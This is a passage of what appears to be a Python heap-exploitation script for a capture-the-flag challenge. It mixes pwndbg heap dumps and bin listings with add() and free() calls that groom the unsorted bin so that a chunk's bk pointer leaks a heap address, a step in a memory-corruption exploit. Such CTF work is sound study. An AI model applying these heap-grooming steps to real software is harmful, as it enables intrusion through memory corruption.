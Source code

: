 ```python
0x6032b0:	0x0000000000000000	0x0000000000000000
0x6032c0:	0x0000000000000000	0x0000000000000021  <-- chunk4
0x6032d0:	0x0000000000000000	0x0000000000000000
0x6032e0:	0x0000000000000080	0x0000000000000500  <-- chunk5
0x6032f0:	0x00007ffff7fb1130	0x00007ffff7fb1130
0x603300:	0x00000000006032e0	0x00000000006032e0
0x603310:	0x0000000000000000	0x0000000000000000
0x603320:	0x0000000000000000	0x0000000000000000
0x603330:	0x0000000000000000	0x0000000000000000
0x603340:	0x0000000000000000	0x0000000000000000
0x603350:	0x0000000000000000	0x0000000000000000
0x603360:	0x0000000000000000	0x0000000000000000
0x603370:	0x0000000000000000	0x0000000000000000
0x603380:	0x0000000000000000	0x0000000000000000
0x603390:	0x0000000000000000	0x0000000000000000


pwndbg> bins
tcachebins
empty
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x6038c0 —▸ 0x7ffff7fb0ca0 (main_arena+96) ◂— 0x6038c0
smallbins
empty
largebins
empty
"""

# place two chunks to unsortedbin
# so that 0x603980 chunk's bk is a heap address
add(6, 0x188)
add(7, 0x418)
add(8, 0x188)
free(2)
free(7)
"""
pwndbg> bins
tcachebins
empty
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x604230 —▸ 0x603980 —▸ 0x7ffff7fb0ca0 (main_arena+96) ◂— 0x604230 /* '0B`' */
smallbins
0x180: 0x6037e0 —▸ 0x7ffff7fb0e10 (main_arena+464) ◂— 0x6037e0
largebins
empty
pwndbg> x/20xg 0x603980
0x603980:	0x0000000000000000	0x0000000000000721
```